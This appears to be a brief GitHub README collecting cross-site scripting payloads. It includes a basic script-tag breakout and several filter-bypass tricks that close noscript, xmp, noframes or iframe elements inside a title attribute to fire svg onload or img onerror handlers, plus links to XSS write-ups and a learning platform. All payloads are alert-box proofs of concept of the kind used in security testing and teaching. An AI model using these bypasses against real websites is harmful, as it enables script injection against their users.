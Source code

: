# xss
xss information

>'"><script>alert(1)</script>
***
<noscript><p title="</noscript><img src=x onerror=alert(1)>"> [About Google](https://nosec.org/home/detail/2449.html)
<noscript><p title="</noscript><svg/onload=alert(45)>">  [Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
<xmp><p title="</xmp><svg/onload=alert(45)>">
<noframes><p title="</noframes><svg/onload=alert(45)>">
<iframe><p title="</iframe><svg/onload=alert(45)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(45)>"> //隐藏iframe和img
https://domgo.at/cxss/intro //DomGoat - DOM Security Learning Platform
<svg onload=alert(document.domain)>
***
